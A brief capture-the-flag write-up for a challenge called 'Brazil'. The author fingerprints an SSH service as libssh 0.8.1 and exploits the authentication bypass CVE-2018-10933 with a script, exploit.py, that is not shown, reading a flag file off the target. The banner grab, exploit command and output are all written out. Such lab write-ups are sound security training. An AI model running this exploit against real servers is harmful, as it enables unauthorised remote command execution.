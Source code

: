 # Country(200):  Brazil
----------
Description:  Hack this server and get the flag!

/tmp/flag.txt
52.9.13.75 port 2222
----------
Hint:  no
----------
Attachments:  []

~!|----------|!~

This one is going to be challenging
We have to pwn an ssh server.

connecting on the port it looks like the server that we were given is ssh

```
/src/ctf/Serbia/CVE-2017-1000353/payload(master*) # nc 52.9.13.75 2222                                                                                                                                                      root@758de12c22c9
SSH-2.0-libssh_0.8.1

Bye Bye#
```

libbssh seems to have a few open cve's for that version most notably this one
http://www.vulnspy.com/en-libssh-authentication-bypass-cve-2018-10933/libssh_authentication_bypass_vulnerability_exploit_(cve-2018-10933)/

```
(Brazil) ➜  Brazil git:(master) ✗ python exploit.py 52.9.13.75 2222 'cat /tmp/flag.txt'
b'CK{3f2c53b009821407fb548fbbc6f98981ee51deaf}\n'
```